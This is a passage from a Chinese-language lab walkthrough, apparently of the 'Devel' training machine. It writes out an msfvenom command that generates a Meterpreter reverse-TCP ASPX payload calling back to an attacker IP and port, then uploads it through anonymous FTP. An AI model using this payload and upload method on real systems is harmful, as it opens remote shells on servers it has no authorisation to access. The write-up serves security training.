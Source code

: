 我使用以下命令

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o devel.aspx LHOST=10.10.14.15 LPORT=4444
```

****-** p **:**** 有效载荷使用

****-** f **:**** 输出格式

****-**0**:**将有效载荷保存到文件中**

**LHOST**:**本地主机**

**LPORT**:**本地端口**

然后我用 **ls** 检查文件是否已经创建。是时候把它发送到 FTP 了

让我们重新连接 FTP，发送我们的小礼物！

![Screenshot-2019-08-06-at-23.22.14](img/41c051845400fe4bbcb1ed6ebec0b415.png)

我连接到 FTP，输入用户名 **anonymous** ，按回车键跳过密码。然后，我用以下命令发送该文件

```
put devel.aspx
```

让我们检查一下文件是否已经正确发送。回到 **Firefox** ，我用下面的命令导航到 FTP 服务器

```
ftp://10.10.10.5
```

可以看到我们的小礼物来了！

![Screenshot-2019-08-06-at-23.37.40](img/a45f3fe3c22ad9856ffa121fc39e2290.png)
